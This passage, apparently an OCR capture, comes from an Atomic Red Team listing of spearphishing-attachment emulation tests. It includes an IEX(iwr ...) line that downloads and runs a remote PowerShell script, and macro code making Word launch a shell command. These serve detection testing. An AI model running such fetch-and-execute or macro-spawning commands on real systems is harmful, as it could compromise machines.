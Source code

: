 ```powershell
ElevationRequired: False
Command:
$url = 'http://localhost/PhishingAttachment.xlsm'
Invoke-WebRequest -Uri $url -OutFile $env:TEMP\PhishingAttachment.xlsm

Cleanup Commands:
Command:
Remove-Item $env:TEMP\PhishingAttachment.xlsm -ErrorAction Ignore
[!!!!!!!!END TEST!!!!!!!]


[********BEGIN TEST*******]
Technique: Phishing: Spearphishing Attachment T1566.001
Atomic Test Name: Word spawned a command shell and used an IP address in the command line
Atomic Test Number: 2
Atomic Test GUID: cbb6799a-425c-4f83-9194-5447a909d67f
Description: Word spawning a command prompt then running a command with an IP address in the command line is an indiciat
or of malicious activity. Upon execution, CMD will be lauchned and ping 8.8.8.8

Attack Commands:
Executor: powershell
ElevationRequired: False
Command:
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
IEX (iwr "https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1204.002/src/Invoke-MalDoc.ps1" -UseBasicParsing)
$macrocode = "   Open `"#{jse_path}`" For Output As #1`n   Write #1, `"WScript.Quit`"`n   Close #1`n   Shell`$ `"ping 8.8.8.8`"`n"
Invoke-MalDoc -macroCode $macrocode -officeProduct "#{ms_product}"
Command (with inputs):
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
IEX (iwr "https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1204.002/src/Invoke-MalDoc.ps1" -UseBasicParsing)
$macrocode = "   Open `"C:\Users\Public\art.jse`" For Output As #1`n   Write #1, `"WScript.Quit`"`n   Close #1`n   Shell`$ `"ping 8.8.8.8`"`n"
Invoke-MalDoc -macroCode $macrocode -officeProduct "Word"

Cleanup Commands:
Command:
Remove-Item #{jse_path} -ErrorAction Ignore
Command (with inputs):
Remove-Item C:\Users\Public\art.jse -ErrorAction Ignore

Dependencies:
Description: Microsoft Word must be installed
Check Prereq Command:
try {
  New-Object -COMObject "#{ms_product}.Application" | Out-Null
  $process = "#{ms_product}"; if ( $process -eq "Word") {$process = "winword"}
  Stop-Process -Name $process
  exit 0
} catch { exit 1 }
Check Prereq Command (with inputs):
try {
  New-Object -COMObject "Word.Application" | Out-Null
  $process = "Word"; if ( $process -eq "Word") {$process = "winword"}
  Stop-Process -Name $process
  exit 0
} catch { exit 1 }
Get Prereq Command:
Write-Host "You will need to install Microsoft #{ms_product} manually to meet this requirement"
Get Prereq Command (with inputs):
```
